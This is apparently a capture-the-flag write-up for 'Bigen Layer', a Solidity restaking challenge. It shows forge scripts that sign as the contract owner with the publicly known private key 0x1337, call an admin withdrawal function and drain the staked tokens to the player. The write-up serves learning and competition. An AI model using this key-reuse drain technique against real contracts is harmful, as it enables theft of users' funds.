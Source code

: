 # Bigen Layer

> [!NOTE]
> Easy | 73 solves

Bigen Layer was an easy-difficulty challenge released at the start of the CTF.
It's description didn't contain any information which would help solve the challenge,
simply mentioning the task being about a "restaking protocol" (the name and description are a reference to [Eigen Layer](https://www.eigenlayer.xyz/)):

> Tony Ads #1: Bigen Layer, an modern & secure restaking protocol, is designed to provide uniformed restaking entry for tokens. Dive deep into the complexities of these systems, and remember—the missing piece might just be found in unexpected places.

## TLDR

`16 ethers` worth of `ERC20` tokens are staked on a `BigenLayer` contract and
can be extorted by calling the owner-only `adminRequestWithdrawal` method using
the owner account `0x71556C38F44e17EC21F355Bd18416155000BF5a6` with a known
private key value, `0x1337`.

## Analysis

Bigen Layer, like nearly all other challenges, was implemented using [Foundry](https://book.getfoundry.sh/).
By analyzing the `Deploy.s.sol` forge script and `Challenge.sol` file, we can start
understanding the conditions needed for the challenge to be counted as solved:

```solidity
// Deploy.s.sol
challenge = address(new Challenge(player));

// Challenge.sol
constructor(address player) {
    PLAYER = player;
    token = new iPhone16();
    bigen = new BigenLayer(OWNER, token);

    token.approve(address(bigen), type(uint256).max);
    bigen.stake(TIM_COOK, 16 * 10 ** 18);
}

function isSolved() external view returns (bool) {
    return token.balanceOf(PLAYER) >= 16 * 10 ** 18;
}
```

Here, `iPhone16` is a basic `ERC20` token using the [Solady](https://github.com/vectorized/solady/blob/main/src/tokens/ERC20.sol) implementation.
It is used to initialize the `BigenLayer` contract, using which `16 ethers` worth of
`iPhone16` tokens are staked on behalf of the `TIM_COOK` address (`0x2011082420110824201108242011082420110824`).
Since the solution criteria is to get `16 ethers` worth of `iPhone16` tokens
onto the player's balance, and nobody besides the deployer and `BigenLayer`
addresses has any tokens, it initially seems like we have to exploit the contract
and steal the tokens from it to an address that we control.

Considering the solution requirements, we can start by finding the "sink" location of the
`BigenLayer` contract which `transfer` the tokens from it to other addresses.
The `stake` method only `transfer`s the tokens from the caller, so it can't be of use to us:

```solidity
function stake(address onBehalf, uint256 amount) external {
    // can't be used to transfer tokens to addresses besides the contract itself
    require(token.transferFrom(msg.sender, address(this), amount), "Transfer failed");
    stakedBalance[onBehalf] += amount;
}
```

`finalizeWithdrawal` is the only other method containing token `transfer` calls:

```solidity
function finalizeWithdrawal(address user) external {
    uint256 amount = pendingWithdrawals[user];
    require(amount > 0, "No pending withdrawal");
    require(block.timestamp >= withdrawalRequestTime[user] + 12 seconds, "Withdrawal too early");
    address recipient = withdrawalRecipient[user];
    pendingWithdrawals[user] = 0;
    // Transfer occurs here and requires all the checks above to pass
    require(token.transfer(recipient, amount), "Transfer failed");
}
```

For it to actually perform a transfer, it requires a withdrawal to be present
in the `pendingWithdrawals` mapping, which is written to only by the `_requestWithdrawal`
`internal` method:

```solidity
function _requestWithdrawal(address user, uint256 amount, address recipient) internal {
    require(stakedBalance[user] >= amount, "Insufficient balance");
    stakedBalance[user] -= amount;
    pendingWithdrawals[user] += amount;
    withdrawalRequestTime[user] = block.timestamp;
    withdrawalRecipient[user] = recipient;
}
```

What's interesting is that `_requestWithdrawal` allows specifying a recipient different
from the staker, which is exactly what we would need to extort tokens staked on behalf of
the `TIM_COOK` address. However, since `_requestWithdrawal` is `internal`, we need to find
the `public`/`external` methods that call it in order for it to be useful to us. The
`requestWithdrawal` method does call it, however it passes `msg.sender` as the `user`
argument, meaning it can only be used by the staker themselves to request a withdrawal.
`adminRequestWithdrawal` on the other hand, allows specifying any arguments for the
withdrawal, but is only callable by the address specified as the `owner` during contract
creation. It is practically a "rug pull" method 🙃

Despite this, `adminRequestWithdrawal` might be the method we need, since `BigenLayer`
initializes the `owner` address in a non-conventional way by actually receiving it
as a constructor argument. Usually, "ownable" smart contracts use the `msg.sender`
value during constructor initialization as the `owner` address.
`Challenge` uses the `0x71556C38F44e17EC21F355Bd18416155000BF5a6` address for the `owner` argument,
references to which can actually be found in Google:

![OWNER address references in Google](./owner.png)

From these links it becomes clear that the `0x71556C38F44e17EC21F355Bd18416155000BF5a6`
address is derived from the private key with a value of `0x1337`.
Knowing the private key of the `BigenLayer` owner allows us to execute a transaction
calling `adminRequestWithdrawal` with the `TIM_COOK` address as the staker
and our own address as the recipient to add a pending withdrawal for draining all the staked tokens.

## Solution

We can outline the solution as follows: first, request a withdrawal of all staked tokens
using `adminRequestWithdrawal`, then wait for a block with a timestamp 12 seconds after
the withdrawal request, and finally call `finalizeWithdrawal`.
The 12 second delay is necessary because its presence is checked in `finalizeWithdrawal`. Knowing that the solution needs to be performed in multiple blocks,
we can start by implementing the first step in a `forge` script:

```solidity
function requestWithdrawal() public {
    Challenge challenge = Challenge(address(vm.envAddress("CHALLENGE_ADDRESS")));
    uint256 PLAYER_PRIVATE_KEY = vm.envUint("PLAYER_PRIVATE_KEY");

    uint256 OWNER_PRIVATE_KEY = 0x1337;
    require(vm.addr(OWNER_PRIVATE_KEY) == challenge.OWNER());

    // Needed because the owner address has no money for gas :(
    vm.startBroadcast(PLAYER_PRIVATE_KEY);
    (bool ok, ) = vm.addr(OWNER_PRIVATE_KEY).call{value: 10 ether}("");
    require(ok, "Transfer failed");
    vm.stopBroadcast();

    vm.startBroadcast(OWNER_PRIVATE_KEY);
    challenge.bigen().adminRequestWithdrawal(
        challenge.TIM_COOK(),
        16 * 10 ** 18,
        challenge.PLAYER()
    );
    vm.stopBroadcast();
}
```

`CHALLENGE_ADDRESS` and `PLAYER_PRIVATE_KEY` here are environment variables set
using the team-dependent values given by the CTF infrastructure upon challenge deployment.
In this step, we first give the `owner` address some ether for transaction gas fees,
since it initially has none, and then perform the `adminRequestWithdrawal` call,
specifying the `OWNER_PRIVATE_KEY`, 0x1337, as the transaction sender in forge's `vm.startBroadcast`.

As the second step, we need to finalize the withdrawal in order to actually "solve" the challenge:

```solidity
function finalizeWithdrawal() public {
    Challenge challenge = Challenge(address(vm.envAddress("CHALLENGE_ADDRESS")));
    uint256 PLAYER_PRIVATE_KEY = vm.envUint("PLAYER_PRIVATE_KEY");

    vm.startBroadcast(PLAYER_PRIVATE_KEY);
    challenge.bigen().finalizeWithdrawal(challenge.TIM_COOK());
    vm.stopBroadcast();

    require(challenge.isSolved(), "Not solved");
}
```

Note that `finalizeWithdrawal` doesn't need to be called by the `owner` address,
allowing any address to call it, since the withdrawal requests are authorized upon creation,
and do not need to be revalidated.
Implementing these two methods is not enough, however, since the challenge's
blockchain node, [anvil](https://book.getfoundry.sh/anvil/) is configured
by the CTF infrastructure without automatic block mining enabled,
so we need to manually send additional dummy transactions to advance the block timestamps.
This can be done by adding a method to our forge script which simply transfers a tiny
amount of ether to the 0x0 address:

```solidity
function mine() public {
    uint256 PLAYER_PRIVATE_KEY = vm.envUint("PLAYER_PRIVATE_KEY");

    vm.startBroadcast(PLAYER_PRIVATE_KEY);
    (bool ok, ) = address(0).call{value: 1 wei}("");
    require(ok, "Transfer failed");
    vm.stopBroadcast();
}
```

The full solution script is available in the [./Solve.s.sol](./Solve.s.sol) file. It can be executed with these three commands to perform the entire solve:

1. `forge script -f '{RPC_URL}' --broadcast ./script/Solve.s.sol -s 'requestWithdrawal()'`
2. `forge script -f '{RPC_URL}' --broadcast ./script/Solve.s.sol -s 'mine()'`
3. `forge script -f '{RPC_URL}' --broadcast ./script/Solve.s.sol -s 'finalizeWithdrawal()'`

`RPC_URL` here is also returned by the CTF infrastructure upon challenge deployment, like the `CHALLENGE_ADDRESS` and `PLAYER_PRIVATE_KEY` values.

Aaand, the flag is captured! 🚩

![Flag captured](./flag.png)
